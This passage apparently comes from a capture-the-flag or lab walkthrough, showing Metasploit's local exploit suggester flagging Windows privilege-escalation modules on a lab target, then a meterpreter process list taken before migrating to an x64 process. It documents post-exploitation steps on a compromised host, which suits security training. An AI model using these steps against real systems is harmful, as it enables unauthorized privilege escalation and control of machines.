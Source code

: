 ~~~
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.122.198 - Collecting local exploits for x86/windows...
[*] 10.10.122.198 - 31 exploit checks are being tried...
[+] 10.10.122.198 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.122.198 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
~~~

We don't see `ms16_014_wmi_recv_notif` in the list. The reason is simple; our session is a x86 meterpreter. Hence, the exploits are for the x86 architecture.

Let's migrate to a x64 process.

~~~
meterpreter > ps

Process List
============

 PID   PPID  Name                    Arch  Session  User         Path
 ---   ----  ----                    ----  -------  ----         ----
 0     0     [System Process]                                    
 4     0     System                                              
 100   680   svchost.exe                                         
 404   4     smss.exe                                            
 456   680   mscorsvw.exe                                        
 536   528   csrss.exe                                           
 540   680   svchost.exe                                         
 584   528   wininit.exe                                         
 592   576   csrss.exe                                           
 620   576   winlogon.exe                                        
 680   584   services.exe                                        
 688   584   lsass.exe                                           
 700   584   lsm.exe                                             
 784   680   svchost.exe                                         
 820   680   sppsvc.exe                                          
 860   680   svchost.exe                                         
 932   620   LogonUI.exe                                         
 948   680   svchost.exe                                         
 996   680   svchost.exe                                         
 1092  680   svchost.exe                                         
 1216  680   mscorsvw.exe                                        
 1224  680   spoolsv.exe                                         
 1252  680   svchost.exe                                         
 1372  680   amazon-ssm-agent.exe                                
 1464  680   LiteAgent.exe                                       
 1492  680   svchost.exe                                         
 1552  1092  rdpclip.exe             x64   2        TCM-PC\user  C:\Windows\System32\rdpclip.exe
 1628  680   Ec2Config.exe                                       
~~~